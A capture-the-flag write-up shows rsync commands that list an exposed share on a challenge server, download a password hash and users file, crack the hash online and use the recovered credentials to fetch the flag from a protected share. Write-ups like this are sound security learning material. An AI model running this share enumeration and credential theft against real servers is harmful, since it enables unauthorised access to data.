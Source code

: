 # Sharing Writeup

I started by using netcat to connect to the service.
```bash
nc challenges.ctf.sikt.no 5009
@RSYNCD: 31.0 sha512 sha256 sha1 md5 md4
```

Reading up on rsync I learned that I could just resend the same banner and then #list.

```bash
$ nc challenges.ctf.sikt.no 5009
@RSYNCD: 31.0 sha512 sha256 sha1 md5 md4
@RSYNCD: 31.0 sha512 sha256 sha1 md5 md4
#list
open           	Open share
protected      	Protected share
@RSYNCD: EXIT
```

Hmm, a open and a protected share. Lets see what the open one contains. This time using the rsync client.

```bash
$ rsync -av --list-only rsync://challenges.ctf.sikt.no:5009/open
receiving file list ... done
drwxr-xr-x        4096 2024/10/04 14:44:06 .
-rw-rw-r--         128 2024/09/03 12:23:47 password_hash.txt
-rw-rw-r--           3 2024/10/04 14:42:37 users

sent 16 bytes  received 130 bytes  58.40 bytes/sec
total size is 131  speedup is 0.90
```

Nice, a password_hash file and a users file. Using another flag with the rsync client, I downloaded the files to the
current (.) folder. `rsync -avz rsync://challenges.ctf.sikt.no:5009/open .`

I found this site (https://hashes.com/en/decrypt/hash) which cracked the hash. The users file also contained a name, ted.

Now for the protected share.
```bash
$ rsync -av --list-only rsync://ted@challenges.ctf.sikt.no:5009/protected
Password: <passord for ted>
receiving file list ... done
dr-xr-xr-x        4096 2024/10/04 14:44:05 .
-r-xr-xr-x          26 2024/09/03 12:23:47 flag.txt

sent 16 bytes  received 98 bytes  25.33 bytes/sec
total size is 26  speedup is 0.23
```

Running rsync with -avz on the protected folder allowed me to download the flag.

